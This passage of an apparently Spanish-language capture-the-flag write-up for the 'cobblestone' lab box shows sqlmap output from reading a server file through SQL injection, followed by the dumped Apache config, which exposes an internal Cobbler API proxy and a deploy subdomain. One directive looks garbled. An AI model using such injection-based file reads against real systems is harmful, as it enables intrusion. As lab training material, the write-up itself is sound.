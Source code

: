 ```
[*] /root/.sqlmap/output/vote.cobblestone.htb/files/_etc_apache2_sites-enabled_000-default.conf (same file)

[11:05:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/vote.cobblestone.htb'

[*] ending @ 11:05:17 /2025-10-07/
```

Ahora vamos a leer el archivo:

```shell
cat /root/.sqlmap/output/vote.cobblestone.htb/files/_etc_apache2_sites-enabled_000-default.conf
```

Info:

```
<VirtualHost *:80>
        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^cobblestone.htb$
        RewriteRule /.* http://cobblestone.htb/ [R]
        ServerName 127.0.0.1
        ProxyPass "/cobbler_api" "http://127.0.0.1:25151/"
        ProxyPassReverse "/cobbler_api" "http://127.0.0.1:25151/"
</VirtualHost>

<VirtualHost *:80>
        ServerName cobblestone.htb

        ServerAdmin cobble@cobblestone.htb
        DocumentRoot /var/www/html

        <Directory /var/www/html>
                AAHatName cobblestone
        </Directory>

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^cobblestone.htb$
        RewriteRule /.* http://cobblestone.htb/ [R]

        Alias /cobbler /srv/www/cobbler

        <Directory /srv/www/cobbler>
                Options Indexes FollowSymLinks
                AllowOverride None
                Require all granted
        </Directory>

</VirtualHost>

<VirtualHost *:80>
        ServerName deploy.cobblestone.htb

        ServerAdmin cobble@cobblestone.htb
        DocumentRoot /var/www/deploy

        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^deploy.cobblestone.htb$
        RewriteRule /.* http://deploy.cobblestone.htb/ [R]
</VirtualHost>

```